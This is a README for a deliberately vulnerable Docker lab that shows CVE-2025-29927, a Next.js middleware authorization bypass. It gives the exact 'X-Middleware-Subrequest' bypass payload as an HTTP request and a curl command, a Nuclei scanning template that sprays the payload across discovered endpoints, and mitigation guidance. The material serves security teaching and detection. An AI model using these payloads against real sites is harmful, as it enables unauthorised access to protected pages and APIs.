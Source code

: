 # CVE-2025-29927: Next.js Middleware Authorization Bypass

## Description

This lab demonstrates a critical vulnerability in Next.js middleware that allows attackers to completely bypass security controls through the `x-middleware-subrequest` header manipulation. The vulnerability affects all Next.js versions from 11.1.4 through 15.2.2, impacting applications using middleware for authentication, authorization, or any other security controls.

## Vulnerability Details

- **CVE ID**: CVE-2025-29927
- **CVSS Score**: 9.1 Critical (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)
- **Affected Versions**: Next.js 11.1.4 - 15.2.2
- **Attack Vector**: Middleware Bypass via x-middleware-subrequest Header
- **Impact**: Authentication Bypass, Authorization Bypass, CSP Bypass, Potential DoS
- **CWE**: CWE-287 (Improper Authentication)

## Lab Setup

### Prerequisites

- Docker
- Docker Compose

### Running the Lab

1. Start the vulnerable application:
   ```bash
   docker-compose up -d
   ```

2. The application will be available at:
   - Main application: http://localhost:3000
   - Protected routes:
     - Dashboard: http://localhost:3000/dashboard
     - Admin Panel: http://localhost:3000/admin
     - Profile: http://localhost:3000/profile
     - API Secret: http://localhost:3000/api/secret

## Vulnerability Exploitation

The vulnerability can be exploited by adding the `x-middleware-subrequest` header with specific values depending on the Next.js version:

### For Next.js 14.0.0 (Lab Version):
```http
GET /admin
Host: localhost:3000
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

You can test this using curl:
```bash
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/admin
```

## Protected Resources

The lab includes several protected resources:
1. `/dashboard` - Protected dashboard page
2. `/admin` - Protected admin panel
3. `/profile` - Protected user profile
4. `/api/secret` - Protected API endpoint

All these routes are protected by middleware and will redirect to `/unauthorized` unless bypassed.

## Nuclei Template

```yaml
id: CVE-2025-29927

info:
  name: Next.js Middleware Bypass
  author: pdteam
  severity: critical
  description: |
    Next.js contains a critical middleware bypass vulnerability affecting versions 11.1.4 through 15.2.2.
    The vulnerability allows attackers to bypass middleware security controls by sending a specially crafted
    'x-middleware-subrequest' header, which can lead to authorization bypass and other security control circumvention.
  reference:
    - https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware
    - https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw
  remediation: |
    Upgrade to Next.js 14.2.25 or 15.2.3 or later.
    If upgrading is not possible, block the x-middleware-subrequest header at the WAF or server level.
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
    cvss-score: 9.1
    cwe-id: CWE-287
  metadata:
    max-request: 1
    shodan-query: html:"/_next/static"
    product: next.js
    vendor: zeit
  tags: cve,cve2025,nextjs,middleware,bypass,auth-bypass

flow: |
  http(1)
  for(let endpoint_urls of iterate(template.endpoints)){
    set("endpoints", endpoint_urls)
    http(2) && http(3)
  }

http:
  - method: GET
    path:
      - "{{BaseURL}}"
    
    matchers:
      - type: word
        part: body
        words:
          - "_next/static"
        internal: true

    extractors:
      - type: regex
        name: endpoints
        part: body
        group: 1
        regex:
          - "href=['\"](\\/[^\\.\"']+)['\"]"
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"
    
    matchers:
      - type: dsl
        dsl:
          - contains_any(to_lower(header), 'x-middleware-rewrite', 'x-middleware-next', 'x-middleware-redirect') && status_code != 200
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"
    headers:
      X-Middleware-Subrequest: "{{nextjs_bypass}}"

    payloads:
      nextjs_bypass:
        - "middleware:middleware:middleware:middleware:middleware"
        - "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware"

    matchers:
      - type: dsl
        dsl:
          - status_code == 200
```

## Mitigation

1. Upgrade to patched versions:
   - Next.js 15.2.3 or later
   - Next.js 14.2.25 or later for 14.x users

2. If unable to upgrade, implement a WAF rule or reverse proxy configuration to block requests containing the `x-middleware-subrequest` header.

## Reference

- [Next.js Middleware Request Corruption Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)

## Security Notes

This is a deliberately vulnerable application for security research and learning purposes. Do not deploy in production environments.

## Detection

The vulnerability can be detected using the following Nuclei template:
- Template: [CVE-2025-29927.yaml](../../../CVE-2025-29927.yaml)
